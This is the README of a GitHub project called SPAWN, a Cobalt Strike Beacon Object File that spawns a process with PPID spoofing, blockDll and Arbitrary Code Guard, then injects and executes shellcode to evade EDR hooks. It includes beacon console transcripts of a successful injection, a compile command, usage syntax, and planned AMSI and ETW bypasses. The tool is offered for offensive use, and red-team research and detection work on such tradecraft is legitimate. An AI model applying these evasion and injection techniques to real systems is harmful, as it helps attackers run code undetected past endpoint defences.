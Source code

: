 ## SPAWN - Cobalt Strike BOF
Cobalt Strike BOF that spawns a process, then injects & executes shellcode. Built to evade EDR/UserLand hooks by spawning the process with Arbitrary Code Guard (ACG), BlockDll, and PPID spoofing.


## New Features (08/01/2021)
+ Spawn process with Arbitrary Code Guard (ACG) to prevent EDR solutions from hooking the process.
+ Inject & Execute shellcode.
```bash
beacon> spawn notepad.exe 6248 /Users/bobby.cooke/git/boku7/SPAWN/popCalc.bin
[*] SPAWN (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] Opened handle 0x48c to process 6248(PID)
[+] Spawned process: notepad.exe | PID: 4240 | PPID: 6248
[+] Allocated RE memory in remote process 4240 (PID) at: 0x0000025DBC470000
[+] Wrote 280 bytes to memory in remote process 4240 (PID) at 0x0000025DBC470000
[+] APC queued for main thread of 4240 (PID) to shellcode address 0x0000025DBC470000
[+] Thread resumed and shellcode is being executed within the remote process!
```

## New Features (07/19/2021)
+ CNA Agressor Script interface
```bash
beacon> help
    spawn                     Spawn a process with a spoofed PPID and blockDll
beacon> help spawn
Synopsis: spawn /path/to/exe PPID
beacon> ps
8264  5536  OneDrive.exe                 x86   1           DESKTOP-KOSR2NO\boku 
beacon> spawn cmd.exe 8264
[*] SPAWN (@0xBoku|github.com/boku7)
Opened handle 0x634 to process 8264(PID)
Success! Spawned process: cmd.exe | PID: 5384 | PPID: 8264
```
+ PPID Spoofing
+ Cobalt Strike "like" `blockdll` functionality

### Compile with x64 MinGW:
```bash
x86_64-w64-mingw32-gcc -c spawnSuspendedProcess.c -o spawnSuspendedProcess.o
```
### Run from Cobalt Strike Beacon Console
+ After compile import the spawn.cna script into Cobalt Strikes Script Manager
```bash
beacon> spawn /path/to/exe PPID
```

### To Do List
+ ~Agressor script for better end user experience~   
  ![](/images/cna.png)
+ ~PPID spoofing for better parent-child process relation OPSEC~    
  ![](/images/ppidspoof.png)
  - Here we can see our `cmd.exe` process being spawned with the PPID as `OneDrive.exe`
+ ~implement Cobalt Strike `blockdll` functionality to prevent non-MS signed DLLs from loading into the spawned processes memory~    
  ![](/images/blockdll.png)
  - We see the parent-child process relationship, and that our spawned process has been created with the `Signatures restricted (Microsoft only)`
  - The `Signatures restricted (Microsoft only)` makes it so DLL's not signed by Microsoft cannot be loaded into our spawned process
+ ~~Do not crash the beacon process when the PE file does not exist~~  
  ![](/images/noCrashUpdate.png)
  - No longer crashes on process creation failure!
+ ~Return the PID to the Cobalt Strike console when the new process is spawned~  
  ![](/images/retpid.png)
+ Build out different methods of remote process injection
+ Build out different methods of remote process patching
  + NTDLL.DLL remote process Unhooking
  + ETW remote process Patching/Bypass
  + AMSI remote process Patching/Bypass
  + CLR Loading & .Net assembly injection

### Why did I build this?
##### 1. To learn more about Cobalt Strike BOFs
##### 2. I want flexibility in choosing my sacraficial processes. 
  + Spawning the same process for every fork-and-run seems like bad/predictable OPSEC to me.
  + There are probably methods for this out there or built into CS already. Either way, I wanted to build my own.
##### 3. I have allot of cool BOF ideas that I want to build on this.

### Credits / References
##### PPID Spoofing & blockDll functionality
+ Credit/shoutout to: Adam Chester @_xpn_ + @SEKTOR7net + Raphael Mudge
+ Thank you for the amazing work that you've contributed. I would not be able to publish this without your blogs, videos, and awesome content!
+ Main References for PPID Spoofing & blockdll
  - https://blog.xpnsec.com/protecting-your-malware/
  - https://blog.cobaltstrike.com/2021/01/13/pushing-back-on-userland-hooks-with-cobalt-strike/
  - https://institute.sektor7.net/ (Courses)
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
###### anthemtotheego/InlineExecute-Assembly
+ https://github.com/anthemtotheego/InlineExecute-Assembly/blob/main/inlineExecuteAssembly/inlineExecute-Assembly.cna
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
##### Sektor7 Malware Dev Essentials course - learned how to do the early bird injection technique
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials

